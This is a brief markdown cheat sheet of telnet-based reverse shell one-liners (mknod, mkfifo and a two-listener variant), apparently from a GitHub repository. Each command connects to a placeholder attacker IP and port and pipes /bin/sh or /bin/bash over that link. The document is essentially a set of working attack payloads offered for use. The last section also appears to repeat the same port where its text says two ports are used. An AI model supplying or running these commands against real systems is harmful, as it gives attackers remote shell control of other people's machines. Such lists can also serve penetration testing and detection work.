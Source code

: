 # Reverse Shells

## 01 - `mknod`

```
mknod backpipe p && telnet <attacker_IP> <attacker_PORT> 0<backpipe | /bin/bash 1>backpipe; rm -f backpipe
```

## 02 - `mkfifo`

```
mkfifo /tmp/f && telnet <attacker_IP> <attacker_PORT> 0</tmp/f | /bin/sh 1>/tmp/f; rm -f /tmp/f

TF=$(mktemp -u); mkfifo $TF && telnet <attacker_IP> <attacker_PORT> 0<$TF | /bin/sh 1>$TF; rm -f $TF
```

## 03 - Wacky

Open two listeners of `netcat`. The first port is for sending commands and the second is for the output.

```
telnet <attacker_IP> <attacker_PORT_1>  | /bin/sh | telnet <attacker_IP> <attacker_PORT_1>

telnet <attacker_IP> <attacker_PORT_1>  | /bin/bash | telnet <attacker_IP> <attacker_PORT_1>
```